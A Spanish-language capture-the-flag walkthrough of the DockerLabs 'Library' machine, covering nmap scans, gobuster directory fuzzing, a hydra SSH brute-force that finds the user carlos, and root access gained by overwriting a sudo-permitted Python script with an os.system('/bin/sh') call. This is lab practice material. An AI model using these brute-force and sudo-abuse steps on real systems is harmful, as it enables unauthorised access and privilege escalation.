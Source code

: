 Maquina: Library
Dificultad: Facil
Objetivos:
Descripcion:


Se descarga la maquina vulnerable de la pagina de dockerlabs y se decomprime con unzip library.zip para poder desplegarlos con: sudo bash auto_deploy.sh library.tar


Para confirmar que tenemos conexion con la maquina vulnerable hacemos un ping -c1 172.17.0.3


Usamos sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt para averiguar puertos abiertos de la maquina, en este caso los puertos encontrados son el 80 http y el 22 ssh


Con nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt buscamos mas informacion de los puertos abiertos como las versiones 


Al entrar http://172.17.0.3:80 encontre alojada la pagina default de apache2 y comence a buscar vulnerabilidades en la pagina sin exito


Comence a hacer fuzzing y se encontro 3 directorios ocultos: gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt


Al entrar al directorio index.php se encontro unos caracteres: JIFGHDS87GYDFIGD


Se ralizo fuzzing a los directorios encontrados y encontre un nuevo resultado: gobuster dir -u http://172.17.0.3/javascript -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt


Y por ultimo realice fuzzin a este directorio encontrado gobuster dir -u http://172.17.0.3/javascript/jquery -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt 


Al terminar de invertigar los servicios web y no encontrar nada mas comence a hacer fuerza brura con hydra y usar JIFGHDS87GYDFIGD como una posible contraseña: hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4 
Y se encontro con las credenciales: [22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
Nota: Antes relice fuerza bruta con usuarios y contraseñas y el usuario root sin exito 



Ejecute el comando sudo -l y encontre que en /opt/ hay un script.py con privilegios asi que es script era una especie de copiar archivos borre el contidno y escribi:
import os

os.system("/bin/sh")
lo guarde y lo ejecute: /opt$ sudo /usr/bin/python3 /opt/script.py y pude tener una shell como root




